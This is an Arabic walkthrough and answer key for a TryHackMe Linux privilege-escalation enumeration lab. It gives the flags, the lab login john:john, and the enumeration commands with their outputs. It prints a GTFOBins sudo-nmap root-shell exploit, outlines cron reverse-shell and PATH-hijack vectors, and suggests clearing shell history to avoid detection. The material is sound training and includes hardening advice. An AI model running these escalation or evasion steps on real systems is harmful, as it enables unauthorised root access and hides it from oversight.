

# توثيق غرفة تعداد تصعيد صلاحيات لينكس (Linux Privilege Escalation: Enumeration)

---

## 1. بيانات المديول والغرفة (Metadata & Overview)

* **المسار التعليمي:** مسار مبتدئ اختبار الاختراق (Jr Penetration Tester)
* **المديول:** المديول الثالث عشر — تصعيد الصلاحيات (13-PRIVILEGE-ESCALATION)
* **اسم الغرفة:** تعداد تصعيد صلاحيات لينكس (Linux Privilege Escalation: Enumeration)
* **المعرف البرمجي (Slug):** `linprivenum`
* **الرابط المباشر:** [TryHackMe Linux Privilege Escalation: Enumeration](https://tryhackme.com/room/linprivenum)
* **مستوى الصعوبة:** سهل (Easy)
* **النوع:** غرفة إرشادية وتدريب عملي تفاعلي (Walkthrough & Hands-on Lab)
* **سيناريو التقييم:** تعداد يدوي منظم لنظام لينكس بهدف اكتشاف مسارات تصعيد الصلاحيات من مستخدم منخفض الصلاحيات (`john`) إلى المستخدم الجذري (`root`)
* **عدد المهام:** 7 مهام
* **عدد الأسئلة:** 16 سؤالاً تم حلها والتحقق منها بنسبة 100%

---

## 2. الملخص التنفيذي (Executive Summary)

تُمثل غرفة **Linux Privilege Escalation: Enumeration** الخطوة العملية الأولى لاكتساب مهارات تصعيد الصلاحيات على أنظمة تشغيل لينكس ضمن مسار Jr Penetration Tester. عند نجاح مختبر الاختراق في الحصول على موطئ قدم أولي (Initial Foothold)، نادراً ما تمنحه تلك النقطة صلاحيات المستخدم الجذري الكاملة (`root`)، بل يحصل في الغالب على حساب مستخدم عادي (مثل `john` في هذا المختبر) أو حساب خدمة ويب محدود الصلاحيات (`www-data`).

تُركز هذه الغرفة على إتقان تقنيات **التعداد اليدوي (Manual Enumeration)** بالاعتماد على أدوات النظام الأصيلة (Living off the Land) بدلاً من اللجوء الفوري للسكريبتات الآلية التي تُحدث ضجيجاً تشغيلياً كبيراً وتُطلق إنذارات أنظمة الحماية (EDR/SIEM). يتعلم المختبر خلال الغرفة كيفية استنطاق بيئة التشغيل من خلال 4 محاور رئيسية:
1. **تعداد نظام التشغيل (OS Enumeration):** استخراج اسم المضيف، إصدار النواة (`6.8.0-1017-aws`)، وتوزيعة النظام (`Ubuntu 24.04.1 LTS`)، والمهام المجدولة في Crontab (`/root/backup.sh`)، وحزم الحماية مثل AppArmor.
2. **تعداد المستخدمين (User Enumeration):** فحص متغيرات البيئة (`LANG=C.UTF-8`)، وسجل الأوامر التاريخي الذي يكشف فلاجاً مسرباً (`THM{history-is-not-safe}`)، وصلاحيات `sudo` الممنوحة للمستخدم لتشغيل ثنائي Nmap (`/usr/bin/nmap`) كـ root، واستعراض حسابات النظام في `/etc/passwd`.
3. **تعداد الشبكة (Network Enumeration):** التعرف على واجهات الشبكة النشطة (`ens5`)، والمنافذ المحلية المستمعة على عنوان الاسترجاع الداخلي (`Port 53`).
4. **تعداد الملفات (File Enumeration):** الكشف عن الملفات المخفية في المجلد الشخصي للمستخدم (`.secret.txt` يحتوي `THM{not-so-hidden}`)، وتتبع الملفات الخاصة في النظام (`/opt/TryHackMe.txt` يحتوي `THM{found-the-flag}`) باستخدام محددات وفلاتر أمر `find`.

---

## 3. مخطط سير العمل ومسارات الاستكشاف (Architectural & Enumeration Flow)

يوضح المخطط التالي دورة التعداد اليدوي المنهجية المتبعة لاكتشاف ثغرات النظام ومسارات التصعيد:



---

## 4. المتطلبات والمفاهيم الأساسية (Prerequisites & Core Foundations)

### مفهوم تصعيد الصلاحيات:
* الانتقال من سياق مستخدم منخفض الأذونات إلى سياق أعلى (أفقي: Horizontal بين مستخدمين متكافئين، أو رأسي: Vertical إلى المستخدم الجذري `root`).
* في بيئات العمل الحقيقية، يمنحك حساب `root` القدرة على:
  * تعديل وحذف سجلات النظام لمحو الآثار.
  * قراءة ملف `/etc/shadow` واستخراج هاشات كلمات سر المسؤولين.
  * تعطيل سياسات الحماية المعيارية مثل SELinux و AppArmor.
  * زرع برمجيات ثبات دائمة (Persistence Mechanisms).

### فلسفة التعداد اليدوي في مواجهة الفحص الآلي:
* الفاحص الآلي (مثل LinPEAS) قد يُطلق آلاف الإنذارات لدى أنظمة كشف التسلل (IDS/EDR).
* التعداد اليدوي الصامت باستخدام أوامر النظام المدمجة (Living off the Land) يسمح للمختبر بالتحرك دون إثارة انتباه فرق المراقبة الدفاعية (SOC).

---

## 5. تعداد نظام التشغيل والنواة (OS & Kernel Enumeration)

يتضمن هذا المحور استكشاف المعمارية والتوزيعة والنواة والعمليات المجدولة:

```bash
# 1. معرفة اسم المضيف (Hostname)
hostname
# النتيجة: linux-enumeration

# 2. استخراج إصدار النواة والمعمارية
uname -r
# النتيجة: 6.8.0-1017-aws

# 3. معرفة إصدار التوزيعة الرسمي
cat /etc/issue
# النتيجة: Ubuntu 24.04.1 LTS

# 4. فحص المهام المجدولة على مستوى النظام
cat /etc/crontab
# النتيجة المكتشفة: */5 * * * * root /root/backup.sh

# 5. استعلام إصدار حزمة AppArmor من مدير الحزم
dpkg -l | grep apparmor
# النتيجة: 4.0.1really4.0.1-0ubuntu0.24.04.3
```

---

## 6. تعداد المستخدمين والصلاحيات وسجل الأوامر (User & Sudo Rights Enumeration)

يُعتبر فحص سياق المستخدم أهم خطوة مباشرة لاكتشاف مسارات التصعيد السريعة:

```bash
# 1. فحص متغيرات البيئة وتحديد قيمة متغير اللغة
env | grep LANG
# النتيجة: LANG=C.UTF-8

# 2. مراجعة سجل الأوامر التاريخي
cat ~/.bash_history
# النتيجة المكتشفة: THM{history-is-not-safe}

# 3. التحقق من صلاحيات sudo الممنوحة للمستخدم
sudo -l
# النتيجة المكتشفة: (root) /usr/bin/nmap

# 4. استعراض المستخدمين وتحديد اسم مدير القوائم البريدية
cut -d ":" -f 1,5 /etc/passwd | grep -i "mailing"
# النتيجة: list:Mailing List Manager (اسم المستخدم: list)
```

---

## 7. تعداد الشبكة والمنافذ الداخلية (Network & Socket Enumeration)

فهم التوصيلات الشبكية يوضح ما إذا كان الخادم يمتلك واجهات أخرى أو خدمات تستمع محلياً:

```bash
# 1. استعراض واجهات الشبكة
ip link show
# النتيجة المكتشفة بخلاف loopback: ens5

# 2. استعراض المقابس المفتوحة للاستماع
ss -tulpn
# النتيجة المكتشفة بخلاف منفذ SSH 22: منفذ 53 (systemd-resolved)
```

---

## 8. تعداد الملفات والبحث الموجه (File & Permission Enumeration)

استخدام محددات أمر `find` لتصفية مئات آلاف الملفات:

```bash
# 1. عرض الملفات المخفية في المجلد الشخصي
ls -la /home/john
# تم اكتشاف ملف .secret.txt
cat /home/john/.secret.txt
# المحتوى: THM{not-so-hidden}

# 2. البحث عن ملفات تحتوي على TryHackMe في اسمها
find / -iname "*tryhackme*" 2>/dev/null
# تم العثور على: /opt/TryHackMe.txt
cat /opt/TryHackMe.txt
# المحتوى: THM{found-the-flag}
```

---

## 9. توثيق وحلول المهام تفصيلياً (Task-by-Task Solutions)

### المهمة 01: المقدمة (Introduction)
* استيعاب أهداف التعداد اليدوي وتصعيد الصلاحيات.
* **الإجابة:** `No answer needed`

### المهمة 02: ما هو التعداد؟ (What Is Enumeration?)
* الاتصال بالهدف عبر SSH باستخدام بيانات الاعتماد `john:john`.
* **الإجابة:** `No answer needed`

### المهمة 03: تعداد نظام التشغيل (OS Enumeration)
* **السؤال 1:** What is the hostname of the target host?
  * **الإجابة:** `linux-enumeration`
* **السؤال 2:** What is the Linux kernel version of the target host?
  * **الإجابة:** `6.8.0-1017-aws`
* **السؤال 3:** What version of Ubuntu is running on the host?
  * **الإجابة:** `Ubuntu 24.04.1 LTS`
* **السؤال 4:** What is the full path of the script run by root every 5 minutes?
  * **الإجابة:** `/root/backup.sh`
* **السؤال 5:** What is the full version of AppArmor?
  * **الإجابة:** `4.0.1really4.0.1-0ubuntu0.24.04.3`

### المهمة 04: تعداد المستخدمين (User Enumeration)
* **السؤال 1:** Print the environment variables. What is the value of LANG?
  * **الإجابة:** `C.UTF-8`
* **السؤال 2:** What is the flag in your history?
  * **الإجابة:** `THM{history-is-not-safe}`
* **السؤال 3:** What is the full path of the command you are allowed to run with elevated privileges?
  * **الإجابة:** `/usr/bin/nmap`
* **السؤال 4:** What is the username of the Mailing List Manager?
  * **الإجابة:** `list`

### المهمة 05: تعداد الشبكة (Network Enumeration)
* **السؤال 1:** What is the name of the network interface, other than loopback?
  * **الإجابة:** `ens5`
* **السؤال 2:** What port, other than 22, is listening on the host?
  * **الإجابة:** `53`

### المهمة 06: تعداد الملفات (File Enumeration)
* **السؤال 1:** What are the contents of the secret file in your home folder?
  * **الإجابة:** `THM{not-so-hidden}`
* **السؤال 2:** Find a file that has TryHackMe in its name. What is its content?
  * **الإجابة:** `THM{found-the-flag}`

### المهمة 07: الخاتمة (Conclusion)
* تأكيد انتهاء التدريب التأسيسي للتعداد اليدوي.
* **الإجابة:** `No answer needed`

---

## 10. التحليل الأمني ومسار التصعيد الجذري (GTFOBins Security Deep Dive)

أظهر التعداد في هذه الغرفة نقطتي ضعف رئيسيتين تمهدان لتصعيد الصلاحيات في الغرفة القادمة:

### 1. استغلال صلاحية `sudo /usr/bin/nmap`:
وفقاً لمشروع **GTFOBins**، فإن السماح للمستخدم بتشغيل أداة Nmap بصلاحيات root يمنحه صدفة أوامر جذرية فورية عبر محرك سكربتات Nmap (NSE):
```bash
# إنشاء سكريبت لووا يستدعي صدفة أوامر النظام
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
# النتيجة: صدفة أوامر Root فورية!
```

### 2. استغلال المهام المجدولة `/root/backup.sh`:
* إذا كان المجلد الحاوي للملف أو الملف نفسه قابلاً للكتابة، يمكن حقن أمر اتصال عكسي (Reverse Shell).
* إذا كان السكريبت يستدعي أوامر دون مسارات مطلقة (مثل `tar` بدلاً من `/bin/tar`)، يمكن التلاعب بمسار البحث `$PATH` لتنفيذ ثنائي ضار بصلاحيات root.

---

## 11. اعتبارات الأمن التشغيلي (OpSec Considerations)

* **الهدوء التام للأوامر المدمجة:** أوامر مثل `uname`, `id`, `cat /etc/issue`, `ss` هي استدعاءات نظام طبيعية ينفذها مدير النظام عشرات المرات يومياً، مما يجعلها غير مشبوهة تماماً مقارنة بتشغيل ماسحات برمجية آلية.
* **تجنب تلوث سجل الأوامر:** عند تنفيذ عمليات اختبار اختراق حقيقية، احرص على تعطيل حفظ سجل التاريخ لجلسة الطرفية الحالية عبر الأمر:
  ```bash
  unset HISTFILE
  # أو
  export HISTSIZE=0
  ```

---

## 12. الهندسة الدفاعية والمعالجة (Defensive Hardening)

1. **تقييد صلاحيات Sudo:** عدم منح إذن تنفيذ أدوات قابلة للهروب الصدفي (مثل nmap, find, vim, less) للمستخدمين العاديين، أو تقييدها بـ `NOEXEC` وحظر الوسائط الحساسة.
2. **حماية ملفات المهام المجدولة:** ضبط صلاحيات `/root/backup.sh` وجميع ملفات crontab على `0700` مملوكة لـ `root:root`.
3. **تنظيف سجلات التاريخ:** تفعيل مسح دوري لملفات `.bash_history` ومنع تخزين كلمات المرور الحساسة في متغيرات البيئة أو وسائط سطر الأوامر.

---

## 13. مرجع الأوامر والبطاقة السريعة (Cheatsheet)

| نوع التعداد | الأمر الموصى به | الهدف من الأمر |
| :--- | :--- | :--- |
| **النظام والنواة** | `uname -a; cat /etc/os-release` | تحديد المعمارية وإصدار النواة للبحث عن الثغرات |
| **اسم المضيف** | `hostname` | فهم الدور المؤسسي للسيرفر |
| **المهام المجدولة** | `cat /etc/crontab /etc/cron.*/*` | اكتشاف سكريبتات دورية تعمل بصلاحيات root |
| **صلاحيات Sudo** | `sudo -l` | استخراج البرامج المسموح بتشغيلها كمسؤول |
| **سجل الأوامر** | `cat ~/.bash_history` | البحث عن كلمات سر أو مفاتيح مسربة |
| **الشبكة والمنافذ** | `ss -tulpn` | اكتشاف الخدمات المستمعة على localhost |
| **ملفات SUID** | `find / -perm -4000 -type f 2>/dev/null` | رصد البرامج التي تنفذ بصلاحيات مالكها |
| **البحث بالاسم** | `find / -iname "*keyword*" 2>/dev/null` | استخراج ملفات التكوين والرايات الحساسة |

---

## 14. المراجع والخطوات القادمة (References & Next Steps)

1. [Linux Credentials Architecture](https://www.kernel.org/doc/Documentation/security/credentials.txt)
2. [Sudoers Manual & Privilege Delegation](https://www.sudo.ws/docs/man/sudoers.man/)
3. [GTFOBins Nmap Privilege Escalation](https://gtfobins.github.io/gtfobins/nmap/)
4. [PayloadsAllTheThings Linux PrivEsc](https://github.com/swisskyrepo/PayloadsAllTheThings)

### الخطوة التالية في المديول:
الانتقال إلى الغرفة الثالثة في المديول الثالث عشر:
**`03-LINUX-PRIVILEGE-ESCALATION-BASICS`** لبدء التطبيق العملي المباشر لاستغلال هذه النواقل (SUID, Sudo, Cron Jobs, Capabilities) وتحويلها إلى صدفة أوامر جذرية (`root`).
